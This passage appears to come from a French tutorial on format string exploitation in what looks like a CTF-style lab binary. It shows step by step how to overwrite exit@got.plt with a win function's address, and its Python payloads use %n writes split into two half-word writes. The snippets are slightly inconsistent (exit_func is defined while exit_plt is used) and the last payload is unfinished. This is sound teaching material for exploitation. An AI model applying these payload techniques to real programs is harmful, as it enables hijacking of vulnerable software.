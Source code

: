 A présent nous devons inscrire 0x80484fd ( adresse de la fonction hello ). Actuellement, nous avons la valeur 0x0b inscrite, c'est à dire qu'a cet instant, le formateur %n à déduis que nous avions écrit 11 caractères. Nous devons a présent en écrire 0x80484fd-0x0b de plus, soit : 134 513 917.

Ecrire plus d'un million de caractères voici un bon moyen de planter notre programme et cela ne va tout simplement pas marcher.

Pour éviter ce problème nous allons ruser, et inscrire cette valeur en deux fois, tout d'abord la partie basse de l'adresse ( 0x84fd ) puis la partie haute (0x0804) ce qui fait un nombre de caractères à inscrire nettement moins important. A présent, recherchons la bonne valeur à l'aide de GDB.

0x84fd correspond à 34045 en int, tentons avec cette valeure.

```
import struct
hello_func = 0x80484fd
exit_func = 0x804a020

exploit = ""
exploit += struct.pack('I',exit_plt) #arg 7
exploit += "%34045x"
exploit += "%7$n"

print exploit
```

![](/medias/articles/format-strings/image-8.png)

Nous obtenons comme valeur 0x00008505, soit 0x00008505-0x84fd =  
8 caractères de trop ! Ceci est due au caractères précédemment "inscrits". Rectifions notre code :

```
import struct
hello_func = 0x80484fd
exit_func = 0x804a020

exploit = ""
exploit += struct.pack('I',exit_plt) #arg 7
exploit += "%34037x"
exploit += "%7$n"

print exploit
```

![](/medias/articles/format-strings/image-9.png)

Super ! il ne reste plus qu'a inscrire la bonne valeur dans la partie haute.

Pour cela, nous allons décaler notre adresse d'écriture à exit@got.plt+2.

![Décalage en mémoire](/medias/articles/format-strings/image-10.png)

Et nous reprenons le même principe.

```
import struct

hello_func = 0x80484fd #func to call to win
exit_plt = 0x804a020

exploit = ""
exploit += struct.pack('I',exit_plt) #7eme arg
exploit += struct.pack('I',exit_plt+2) # 8eme arg

exploit += "%34037x"
exploit += "%7$n "

exploit += "%x"
exploit += "%8$n"
```